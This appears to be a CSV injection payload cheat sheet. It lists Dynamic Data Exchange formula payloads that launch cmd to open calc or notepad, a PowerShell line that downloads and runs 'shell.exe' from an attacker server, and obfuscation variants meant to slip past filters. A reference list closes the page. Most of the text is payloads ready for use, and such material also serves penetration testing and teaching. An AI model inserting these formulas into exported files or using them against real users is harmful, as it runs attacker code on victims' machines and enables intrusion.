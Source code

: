 # CSV Injection

Many web applications allow the user to download content such as templates for invoices or user settings to a CSV file. Many users choose to open the CSV file in either Excel, Libre Office or Open Office. When a web application does not properly validate the contents of the CSV file, it could lead to contents of a cell or many cells being executed.

## Exploit

Basic exploits with **Dynamic Data Exchange**.


Payload: pop a calc

```powershell
DDE ("cmd";"/C calc";"!A0")A0
@SUM(1+1)*cmd|' /C calc'!A0
=2+5+cmd|' /C calc'!A0
```

Payload: pop a notepad

```powershell
=cmd|' /C notepad'!'A1'
```

Payload: powershell download and execute

```powershell
=cmd|'/C powershell IEX(wget attacker_server/shell.exe)'!A0
```

Payload: Prefix obfuscation and command chaining

```powershell
=AAAA+BBBB-CCCC&"Hello"/12345&cmd|'/c calc.exe'!A
=cmd|'/c calc.exe'!A*cmd|'/c calc.exe'!A
+thespanishinquisition(cmd|'/c calc.exe'!A
=         cmd|'/c calc.exe'!A
```

Payload: Using rundll32 instead of cmd

```powershell
=rundll32|'URL.dll,OpenURL calc.exe'!A
=rundll321234567890abcdefghijklmnopqrstuvwxyz|'URL.dll,OpenURL calc.exe'!A
```

Payload: Using null characters to bypass dictionary filters. Since they are not spaces, they are ignored when executed.

```powershell
=    C    m D                    |        '/        c       c  al  c      .  e                  x       e  '   !   A
```

Technical details of the above payloads:

- `cmd` is the name the server can respond to whenever a client is trying to access the server
- `/C` calc is the file name which in our case is the calc(i.e the calc.exe)
- `!A0` is the item name that specifies unit of data that a server can respond when the client is requesting the data


Any formula can be started with

```powershell
=
+
–
@
```


## References

- [CSV Excel Macro Injection - Timo Goosen, Albinowax - Jun 21, 2022](https://owasp.org/www-community/attacks/CSV_Injection)
- [CSV Excel formula injection - Google Bug Hunter University - May 22, 2022](https://bughunters.google.com/learn/invalid-reports/google-products/4965108570390528/csv-formula-injection)
- [CSV Injection – A Guide To Protecting CSV Files - Akansha Kesharwani - 30/11/2017](https://payatu.com/csv-injection-basic-to-exploit/)
- [From CSV to Meterpreter - Adam Chester - November 05, 2015](https://blog.xpnsec.com/from-csv-to-meterpreter/)
- [The Absurdly Underestimated Dangers of CSV Injection - George Mauer - 7 October, 2017](http://georgemauer.net/2017/10/07/csv-injection.html)
- [Three New DDE Obfuscation Methods - ReversingLabs - September 24, 2018](https://blog.reversinglabs.com/blog/cvs-dde-exploits-and-obfuscation)
- [Your Excel Sheets Are Not Safe! Here's How to Beat CSV Injection - we45 - October 5, 2020](https://www.we45.com/post/your-excel-sheets-are-not-safe-heres-how-to-beat-csv-injection)